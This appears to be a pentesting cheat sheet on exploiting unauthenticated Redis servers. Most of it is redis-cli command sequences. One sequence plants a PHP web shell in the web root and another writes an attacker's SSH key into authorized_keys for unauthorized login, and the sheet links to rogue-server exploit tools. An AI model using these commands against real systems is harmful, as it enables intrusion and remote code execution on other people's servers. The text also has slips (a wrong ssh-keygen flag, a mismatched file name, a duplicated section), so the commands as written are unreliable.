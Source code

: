 


### Passwordless Authentication
```
redis-cli -h 192.168.217.176
```



### Exploiting Redis for Remote Code Execution

```
redis-cli -h X.X.X.X flushall
redis-cli -h X.X.X.X set pwn '<?php system($_REQUEST['cmd']); ?>'
redis-cli -h X.X.X.X config set dbfilename shell.php
redis-cli -h X.X.X.X config set dir /var/www/html
redis-cli -h X.X.X.X save
```


### Unauthorized SSH Access via Redis Exploitation

https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419


```
ssh-keygen -t ecdsa -s 521 -f key // OR
ssh-keygen -t rsa
cd ~/.ssh/
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt


(echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
redis-cli -h X.X.X.X flushall
cat foo.txt | redis-cli -h X.X.X.X -x set pwn
redis-cli -h X.X.X.X config set dbfilename authorized_keys
redis-cli -h X.X.X.X config set dir /var/lib/redis/.ssh
redis-cli -h X.X.X.X save
```
### Unauthorized SSH Access via Redis Exploitation

This set of commands demonstrates an exploitation method that uses Redis to insert an SSH public key into the authorized_keys file of a Redis server, effectively allowing unauthorized SSH access to the server.

```
$ ssh-keygen -t ecdsa -s 521 -f key$ (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
$ redis-cli -h X.X.X.X flushall
$ cat key.txt | redis-cli -h X.X.X.X -x set pwn
$ redis-cli -h X.X.X.X config set dbfilename authorized_keys
$ redis-cli -h X.X.X.X config set dir /var/lib/redis/.ssh
$ redis-cli -h X.X.X.X save
```
### Rogue Redis Server

[+]
https://github.com/n0b0dyCN/redis-rogue-server

[-]
https://github.com/Dliv3/redis-rogue-server/blob/master/README_EN.md


